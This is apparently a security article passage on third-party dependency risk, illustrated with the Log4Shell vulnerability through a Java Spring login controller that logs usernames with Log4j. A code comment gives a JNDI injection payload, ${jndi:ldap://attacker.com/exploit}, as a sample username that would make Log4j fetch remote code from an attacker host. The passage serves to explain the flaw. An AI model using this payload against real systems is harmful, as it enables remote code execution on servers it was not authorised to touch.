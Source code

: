 ### 1. Dependency Management Risks

Organizations routinely incorporate third-party libraries and open-source
components without adequately vetting their security. The Log4j vulnerability
(CVE-2021-44228, also known as "Log4Shell") in 2021 demonstrated how a single
vulnerability in a widely used Java logging component could threaten countless
systems worldwide.

Here's how the Log4j vulnerability worked:

```java
package com.enterprise.secure.auth;

import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.http.ResponseEntity;
import org.springframework.security.core.AuthenticationException;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import javax.servlet.http.HttpServletRequest;
import java.util.HashMap;
import java.util.Map;

@RestController
public class AuthenticationController {
    private static final Logger logger = LogManager.getLogger(AuthenticationController.class);
    private final UserService userService;

    public AuthenticationController(UserService userService) {
        this.userService = userService;
    }

    @PostMapping("/api/auth/login")
    public ResponseEntity<?> login(@RequestBody LoginRequest loginRequest, HttpServletRequest request) {
        try {
            // Log the login attempt with username and source IP
            String ipAddress = request.getRemoteAddr();
            logger.info("Login attempt from IP: {} with username: {}",
                     ipAddress, loginRequest.getUsername());

            // VULNERABLE: If an attacker sets a username like:
            // ${jndi:ldap://attacker.com/exploit}
            // Log4j will interpret and execute the JNDI lookup

            // Authentication logic
            AuthToken token = userService.authenticate(loginRequest);
            Map<String, Object> response = new HashMap<>();
            response.put("token", token.getValue());
            response.put("expires", token.getExpiration());

            return ResponseEntity.ok(response);
        } catch (AuthenticationException e) {
            logger.warn("Failed login attempt for user: {}", loginRequest.getUsername());
            return ResponseEntity.status(401).body("Authentication failed");
        } catch (Exception e) {
            logger.error("Error during authentication: {}", e.getMessage(), e);
            return ResponseEntity.status(500).body("Internal server error");
        }
    }
}
```